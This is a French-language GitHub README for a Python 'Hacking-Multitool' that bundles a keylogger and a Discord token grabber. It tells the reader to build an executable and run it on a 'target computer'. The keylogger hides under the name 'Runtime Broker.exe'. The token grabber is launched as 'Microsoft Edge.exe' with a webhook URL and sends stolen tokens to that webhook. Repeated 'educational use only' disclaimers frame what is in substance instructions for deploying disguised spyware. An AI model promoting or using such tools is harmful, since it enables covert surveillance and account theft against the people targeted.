 # 🛠️ Hacking-Multitool

![Python](https://img.shields.io/badge/Python-3.8%2B-blue?logo=python)
![Educational](https://img.shields.io/badge/For%20Educational%20Use%20Only-orange)
![Auto-Install](https://img.shields.io/badge/Auto--Install-Yes-brightgreen)

> **⚠️ Ce projet est uniquement à but éducatif. N'utilisez pas cet outil à des fins illégales !**

---

## ❓ Qu'est-ce que c'est ?

Notre Multitool est un outil de cybersécurité simple, basé sur Python.  
**⚠️ Ce programme n'est absolument pas sécurisé. Les autorités peuvent vous retrouver en quelques secondes. Utilisez-le à vos risques et périls.**  
Ce code n'a pas été créé pour le piratage, **UNIQUEMENT POUR L'APPRENTISSAGE**.

---

## ✅ Prérequis

### 🎉 Bonne nouvelle !
**Aucun prérequis !**  
Tout est installé automatiquement lors du setup.

---

## 🚀 Installation

1️⃣ Télécharge et extrait les fichiers dans le dossier de ton choix.  
2️⃣ Ouvre le terminal (cmd) et lance :  
```bash
python setup.py
```
3️⃣ Suis les instructions à l'écran.  
4️⃣ Récupère l'exécutable généré et utilise-le selon tes besoins sur l'ordinateur cible.

> **❗ N'UTILISE PAS CET OUTIL POUR LE PIRATAGE !**

---

## 🕹️ Utilisation

### ⌨️ Keylogger

1. Exécute le programme sur l'ordinateur cible. (Le fichier est caché sous le nom **"Runtime Broker.exe"**)
2. Pour arrêter le keylogger, termine le processus **Runtime Broker.exe** dans le gestionnaire des tâches (attention à fermer le bon !)

---

### 🕵️‍♂️ Discord Token Grabber

1. Exécute sur l'ordinateur cible avec la commande suivante :
```bash
Microsoft Edge.exe VOTRE_WEBHOOK_URL
```
2. Les tokens trouvés seront envoyés sur votre Discord via le webhook.

---

## 🎓 Profite de ton apprentissage en cybersécurité !

---